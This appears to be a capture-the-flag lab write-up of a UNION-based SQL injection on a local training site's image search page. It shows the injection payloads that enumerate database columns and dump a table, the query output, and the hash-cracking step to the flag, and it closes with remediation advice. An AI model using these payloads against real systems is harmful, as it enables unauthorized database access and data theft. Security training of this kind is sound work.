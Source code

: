 # SQL advanced injection (via image research page) vulnerability report

### Location: 
***http://192.168.56.3/index.php?page=searchimg***

## Description:

When we discovered SQL injection breach on member page, and we got all `users` tables, there was some information about `list_images`.
The SQL injection:

`1 UNION SELECT table_name, column_name FROM information_schema.columns`

Results:

```
...
ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns  
Title: id
Url : list_images

ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns  
Title: url
Url : list_images

ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns  
Title: title
Url : list_images

ID: 1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns  
Title: comment
Url : list_images
...
```
Now we can use the same method to retrieve the data from these tables:

`1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images`

```
ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 1https://fr.wikipedia.org/wiki/Programme_NsaAn image about the NSA !
Url : 1

ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 2https://fr.wikipedia.org/wiki/Fichier:4242 !There is a number..
Url : 1

ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 3https://fr.wikipedia.org/wiki/Logo_de_GoGoogleGoogle it !
Url : 1

ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 4https://en.wikipedia.org/wiki/Earth#/medEarthEarth!
Url : 1

ID: 1 UNION SELECT 1, CONCAT(id, url, title, comment) FROM list_images 
Title: 5borntosec.ddns.net/images.pngHack me ?If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46
Url : 1
```
if we decode `1928e8083cf461a51303633093573c46` we get `albatroz`, then we encode this word in sha256 we get the Flag!

## Recommendations:

1. Input _validation_ and _sanitization_ on all user inputs.

2. Use _prepared_ statements or _parameterized_ queries.

3. Grant users only the permissions they _absolutely_ need, avoid using _overly permissive_ database accounts.